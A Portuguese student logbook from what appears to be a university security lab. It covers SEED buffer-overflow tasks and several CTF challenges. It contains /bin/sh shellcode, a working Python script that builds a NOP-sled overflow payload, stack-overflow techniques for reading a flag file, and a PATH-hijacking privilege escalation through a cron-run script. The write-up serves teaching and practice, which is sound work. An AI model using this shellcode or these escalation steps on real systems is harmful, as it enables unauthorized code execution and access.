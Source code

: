 # Logbook 5

## Task 1

```
xor  rdx, rdx        ; rdx = 0: execve()’s 3rd argument
push rdx
mov  rax, ’/bin//sh’ ; the command we want to run
push rax
mov  rdi, rsp
push rdx
push rdi
mov  rsi, rsp
;
; rdi --> "/bin//sh": execve()’s 1st argument
; argv[1] = 0
; argv[0] --> "/bin//sh"
; rsi --> argv[]: execve()’s 2nd argument
xor  rax, rax
mov  al,  0x3b       ; execve()’s system call number
syscall
```

O código em C gerado a partir do código shell mostrado acima, é o seguinte:

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;
int main(int argc, char **argv){
   char code[500];
   strcpy(code, shellcode); // Copy the shellcode to the stack
   int (*func)() = (int(*)())code;
   func();                 // Invoke the shellcode from the stack
   return 1;
}
```
O código acima contém duas cópias do código shell.  Quando compilamos o programa utilizando a flag -m32, é usada a versão de 32-bit, enquanto que sem a flag, é usada a versão de 64-bit. 

Utilizando o ficheiro Makefile presente no diretório do logbook, compilamos o código com make. Foram criados dois ficheiros binários, um a32.out e um a64.out. A compilação usa a opção execstack, que permite que o código seja executado a partir da stack, mas sem esta opção o programa falha.

__1) Correr o ficheiro a32.out__
![](https://i.imgur.com/gS1eS11.png)

__2) Correr o ficheiro a64.out__
![](https://i.imgur.com/OYuyqnY.png)

#### Conclusões
O resultado da execução de ambos os ficheiros é o mesmo.

## Task 2

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
 * won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif
int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1; 
}
int main(int argc, char **argv){
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

#### Results in terminal:
![](https://i.imgur.com/cEGRMtf.jpg)


#### Conclusões

Existem 4 executáveis com configurações ligeiramente diferentes, possuindo valores diferentes em DBUF_SIZE.
Utilizamos a stack-L1.

## Task 3

Para explorar a vulnerabilidade de *buffer overflow* no programa de destino, a coisa mais importante a saber é a distância entre a posição inicial do buffer e o local onde o endereço de retorno está armazenado. Utilizamos um método de *debugging* descrito no tutorial SEEDS, e encontramos o endereço do *frame pointer* e do *buffer*



![](https://i.imgur.com/jt5G3R6.jpg)

Utilizamos o seguinte código para o ataque:

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) - 1
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc9dc + start 
offset = 0xffffca48 + 4 - 0xffffc9dc

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```

O objetivo é colocar o nosso *shellcode* numa região acima do *return address* e alterá-lo para apontar para esse local.

![](https://i.imgur.com/mr1uds2.png)

---

# CTF

## Semana 5 - Desafio 1

scanf("%28s", &buffer); -> lê 32 caractéres para o buffer
char buffer[20]; -> o buffer foi declarado com 20 bytes
Encontrámos assim uma vulnerabilidade comum, o buffer overflow.

char meme_file[8] = "mem.txt\0"; -> diretamente a seguir a buffer na stack está alocado meme_file, com 8 bytes

FILE *fd = fopen(meme_file,"r"); -> precisamos que meme_file seja "flag.txt\0"

Usando pwntools, no scanf, enviámos um caracter arbitrário 20 vezes, seguido de "flag.txt\n".

## Semana 5 - Desafio 2

Segue-se o mesmo princípio que no desafio 1, simplesmente temos de também reescrever val com o valor correto para passar o check.

scanf("%32s", &buffer); -> lê 32 caractéres para o buffer
char buffer[20]; -> o buffer foi declarado com 20 bytes
Buffer overflow novamente.

char val[4] = "\xef\xbe\xad\xde"; -> diretamente a seguir a buffer na stack está alocado val, com 4 bytes
char meme_file[8] = "mem.txt\0"; -> e diretamente a seguir a val está alocado meme_file, com 8 bytes

if(*(int*)val == 0xfefc2223) -> precisamos que este check seja true
FILE *fd = fopen(meme_file,"r"); -> e precisamos que meme_file seja "flag.txt\0"

Usando pwntools, no scanf, enviámos um caracter arbitrário 20 vezes, seguido de 4 bytes com o endereço 0xfefc2223, seguido de "flag.txt\n".
Importante notar que o endereço tem de ser enviado na ordem "\x23\x22\xfc\xfe", já que a máquina é little endian.

### British Punctuality

-Passo 1, ler conteúdo dos ficheiros em ~/
Lendo ~/main.c, apercebemo-nos que a flag está provavelmente em /flags/flag.txt
~/my_script.sh primeiro faz source das PATH variables em /tmp/env, e corre printenv sem path absoluto, algo que podemos atacar se o script for corrido por algum utilizador com permissões necessárias.

-Passo 2, explorar ficheiros a que temos acesso
Encontrámos um ficheiro, /tmp/last_log, que aparentava ser o output de ~my_script.sh corrido com permissões necessárias para aceder à flag.
Encontrámos também /etc/cron.d/my_cron_script, que corre a cada minuto, e lendo o seu conteúdo apercebemo-nos que é exatamente o script que produz /tmp/last_log a cada minuto.

-Passo 3, criar um executável com o código maligno
Verificámos que podemos escrever em /tmp/, portanto criámos um ficheiro /tmp/hackerman.c com o comando system("cat /flags/flag.txt");
Compilámos esse ficheiro como /tmp/printenv

-Passo 4, mudar as variáveis de ambiente
Escrevemos um /tmp/env com "PATH=/tmp:&PATH", algo que será sourced por ~/my_script.sh

-????

-PROFIT!!!
